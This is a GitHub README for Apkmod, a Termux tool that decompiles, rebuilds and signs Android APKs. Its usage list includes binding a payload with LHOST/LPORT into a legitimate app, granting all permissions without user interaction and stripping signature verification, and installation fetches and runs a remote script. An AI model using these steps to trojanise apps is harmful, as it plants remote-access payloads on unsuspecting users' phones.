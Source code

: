 # Apkmod v4.1
### Author : Lokesh @Hax4us

## _Steps For Installation_
1. First goto home directory `cd $HOME`
2. Get the setup script `wget https://raw.githubusercontent.com/Hax4us/Apkmod/master/setup.sh`
3. Execute the script `bash setup.sh`
4. Now you can execute command `apkmod`

## Usage :
1. For decompiling `apkmod -d -i /path/to/inapp.apk -o /path/to/outdirectory`. It will decompile __inapp.apk__ into __outdirectory__ folder.
2. For recompiling `apkmod -r -i /path/to/indirectory -o /path/to/outapp.apk`. It will recompile __indirectory__ ( where decompiled files are exists ) into __outapp.apk__.
3. For signing `apkmod -s -i /path/to/unsignedapp.apk -o /path/to/signedapp.apk`. It will sign __unsignedapp.apk__ and saves output ( signed app ) to __signedapp.apk__.
4. For binding `apkmod -b -i /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`. It will bind payload with __originalApp.apk__ and saves final binded app to __binded.apk__.
5. Use `-V` to enable verbose output
6. If only editing Java (smali) then this is the recommended action for faster decompile & rebuild `--no-res`
7. If you are only editing the resources. This is the recommended action for faster disassemble & assemble `--no-smali`
8. use `--frame-path` to specify framework directory like `--frame-path=/path/to/dir` 
9. Use `--enable-perm` to enable all android permissions in binded or non binded payloads without user interaction. For example :- `apkmod --enable-perm -i /path/to/binded.apk -o mybinded.apk`
10. `apkmod --to-java -i /path/to/in.apk -o outfolder` will decompile dex to java. Input can be __[.apk,.dex,.zip]__
11. Now you can use a optional option `-a` to use __aapt__ for __binding__ and __recompiling__. Why aapt ? Because some apps can't recompile with __aapt2__ but __aapt__ can do it. But I can't drop __aapt2__ support because some apps can't recompile with __aapt__ so first recompile or bind without __aapt__ (`-a`) then if you failed then try with __aapt__. For example `apkmod -a -b -i /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444` will use `aapt` otherwise `aapt2`.
12. To change App name use `--appname` with `-i`. For example `apkmod --appname="New App Name" -i /path/to/in.apk -o /path/to/out.apk`
13. To remove/kill signature verification of app , `apkmod --signature-bypass --killer=k2 -i /path/to/in.apk -o /path/to/out.apk`. There are two version available of signature killer , one is k1 and second one is k2, you will have to specify version like `--killer=k1` or `--killer=k2`.
### Size Comparision (Termux)
Size  | Apkmod  | Third party tools
--- | --- | ---
after installation | Around 100 MB | Around 700-900 MB

#### Why Apkmod is extremely small ?
Because it has Alpine instead of Ubuntu, kali, parrot or other glibc based distros.

#### You can join me on telegram also 
https://t.me/hax4us_group
